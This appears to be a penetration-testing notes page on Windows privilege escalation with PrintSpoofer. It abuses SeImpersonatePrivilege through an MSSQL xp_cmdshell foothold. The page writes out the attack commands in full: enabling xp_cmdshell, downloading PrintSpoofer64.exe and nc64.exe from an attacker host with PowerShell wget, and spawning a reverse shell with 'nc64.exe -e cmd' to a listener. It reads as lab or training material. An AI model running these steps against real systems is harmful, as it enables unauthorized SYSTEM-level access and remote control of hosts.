 ```yaml
---
title: PrintSpoofer
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
---
```

# 🖨️ PrintSpoofer

 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage `NT AUTHORITY\SYSTEM` level access on Windows Server 2019 and Windows 10 build 1809 onwards when the  command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. 

Download from: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

**1.** Spawn a SYSTEM process on a desktop or catch a reverse shell. For instance, let's imagine that we have access with

```
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
```

And that our user has the SeImpersonatePrivilege  listed when running:

```
enable_xp_cmdshell
xp_cmdshell whoami /priv
```

**2.** Download the PrintSpoofer64.exe file from kali to the host

```
# from a different kali terminal locate the file and then
python3 -m http.server 80

# From the terminal with the mssql connection, upload PrintSpoofer64.exe and nc.exe
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/PrintSpoofer64.exe -outfile PrintSpoofer64.exe"
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe"
```

**3.** Set a listener in the kali and execute it from the host:

```
# Set a listener from the kali machine
nc -lnvp 1234

# Execute the PrintSpoofer
xp_cmdshell "powershell -c cd C:\Tools; .\PrintSpoofer64.exe
 -c "C:\Tools\nc64.exe  $IPfromOurKali 1234 -e cmd"
```